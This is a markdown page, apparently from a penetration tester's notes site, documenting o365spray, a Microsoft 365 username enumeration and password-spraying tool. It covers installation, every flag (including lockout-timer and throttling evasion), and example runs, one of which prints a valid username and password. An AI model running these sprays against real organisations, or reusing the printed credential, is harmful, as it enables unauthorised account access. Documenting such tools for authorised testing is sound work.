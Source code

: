 ```yaml
---
title : "O365spray"
# pre : ' '
description : "o365spray | Microsoft O365 User Enumerator and Password Sprayer."
date : 2021-11-03T20:53:22+01:00
# hidden : true
# draft : true
weight : 0
tags : ['M365', 'Passwordspray']
---
```


## O365spray

o365spray a username enumeration and password spraying tool aimed at Microsoft Office 365 (O365). This tool reimplements a collection of enumeration and spray techniques researched and identified by those mentioned in [Acknowledgments](https://github.com/0xZDH/o365spray#Acknowledgments).

> WARNING: The oAuth2 module for user enumeration is performed by submitting a single authentication attempt per user. If the module is run in conjunction with password spraying in a single execution, o365spray will automatically reset the lockout timer prior to performing the password spray -- if enumeration is run alone, the user should be aware of how many and when each authentication attempt was made and manually reset the lockout timer before performing any password spraying.

### Installation

```plain
git clone https://github.com/0xZDH/o365spray
pip3 install -r requirements.txt
```

### Usage

```plain
o365spray.py [-h] [-d DOMAIN] [--validate] [--enum] [--spray] [-u USERNAME] [-p PASSWORD] [-U USERFILE] [-P PASSFILE] [--paired PAIRED] [-c COUNT] [-l LOCKOUT] [--enum-module {office,onedrive,oauth2}]
                    [--spray-module {oauth2,activesync,autodiscover,reporting,adfs}] [--adfs-url ADFS_URL] [--sleep [-1, 0-120]] [--jitter [0-100]] [--rate RATE] [--safe SAFE] [--timeout TIMEOUT] [--proxy PROXY] [--output OUTPUT]
                    [-v] [--debug]
```

### Flags

```plain
o365spray | Microsoft O365 User Enumerator and Password Sprayer -- v2.0.4

optional arguments:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Target domain for validation, user enumeration, and/or password spraying.
  --validate            Run domain validation only.
  --enum                Run username enumeration.
  --spray               Run password spraying.
  -u USERNAME, --username USERNAME
                        Username(s) delimited using commas.
  -p PASSWORD, --password PASSWORD
                        Password(s) delimited using commas.
  -U USERFILE, --userfile USERFILE
                        File containing list of usernames.
  -P PASSFILE, --passfile PASSFILE
                        File containing list of passwords.
  --paired PAIRED       File containing list of credentials in username:password format.
  -c COUNT, --count COUNT
                        Number of password attempts to run per user before resetting the lockout account timer. Default: 1
  -l LOCKOUT, --lockout LOCKOUT
                        Lockout policy's reset time (in minutes). Default: 15 minutes
  --enum-module {office,onedrive,oauth2}
                        Specify which enumeration module to run. Default: office
  --spray-module {oauth2,activesync,autodiscover,reporting,adfs}
                        Specify which password spraying module to run. Default: oauth2
  --adfs-url ADFS_URL   AuthURL of the target domain's ADFS login page for password spraying.
  --sleep [-1, 0-120]   Throttle HTTP requests every `N` seconds. This can be randomized by passing the value `-1` (between 1 sec and 2 mins). Default: 0
  --jitter [0-100]      Jitter extends --sleep period by percentage given (0-100). Default: 0
  --rate RATE           Number of concurrent connections (attempts) during enumeration and spraying. Default: 10
  --safe SAFE           Terminate password spraying run if `N` locked accounts are observed. Default: 10
  --timeout TIMEOUT     HTTP request timeout in seconds. Default: 25
  --proxy PROXY         HTTP/S proxy to pass traffic through (e.g. http://127.0.0.1:8080).
  --output OUTPUT       Output directory for results and test case files. Default: current directory
  -v, --version         Print the tool version.
  --debug               Enable debug output.
```

### Examples

#### Validate domain

```plain
$ python3 o365spray.py -d offsec.nl --validate

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  offsec.nl
   > validate       :  True
   > timeout        :  25 seconds
   > start          :  2021-11-03 20:52:48

>----------------------------------------<

[2021-11-03 20:52:48,396] INFO : Running O365 validation for: offsec.nl
[2021-11-03 20:52:48,652] INFO : [WARNING] The following domain is using O365, but is Federated: offsec.nl
        [!] --> ADFS AuthURL: https://offsec.okta-emea.com/app/office365/
```

#### Passwordspray over ActiveSync

```plain
$ python3 o365spray.py -d offsec.nl -u john.do --paired usercreds.txt --spray-module activesync --spray

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  offsec.nl
   > spray          :  True
   > username       :  john.do
   > paired         :  usercreds.txt
   > count          :  1 passwords/spray
   > lockout        :  15.0 minutes
   > spray_module   :  activesync
   > rate           :  10 threads
   > safe           :  10 locked accounts
   > timeout        :  25 seconds
   > start          :  2021-11-03 21:00:26

>----------------------------------------<

[2021-11-03 21:00:26,533] INFO : Running O365 validation for: offsec.nl
[2021-11-03 21:00:26,736] INFO : [WARNING] The following domain is using O365, but is Federated: offsec.nl
        [!] --> ADFS AuthURL: https://offsec.okta-emea.com/app/office365/
[2021-11-03 21:00:26,736] INFO : 

[ ? ]   Switch to the ADFS module for password spraying [Y/n] n
[2021-11-03 21:00:30,062] INFO : Running password spray against 1 users.
[2021-11-03 21:00:30,063] INFO : Password spraying using paired usernames:passwords.
[2021-11-03 21:00:30,498] INFO : [VALID] john.do@offsec.nl:Welkom1234!
[2021-11-03 21:00:30,499] INFO : 

[ * ] Writing valid credentials to: '/o365spray/spray/spray_valid_credentials.2111032100.txt'
[ * ] All sprayed credentials can be found at: '/o365spray/spray/spray_tested_credentials.2111032100.txt'

[2021-11-03 21:00:30,499] INFO : Valid Credentials: 1
```

### URL list

* [Github.com - o365spray](https://github.com/0xZDH/o365spray)
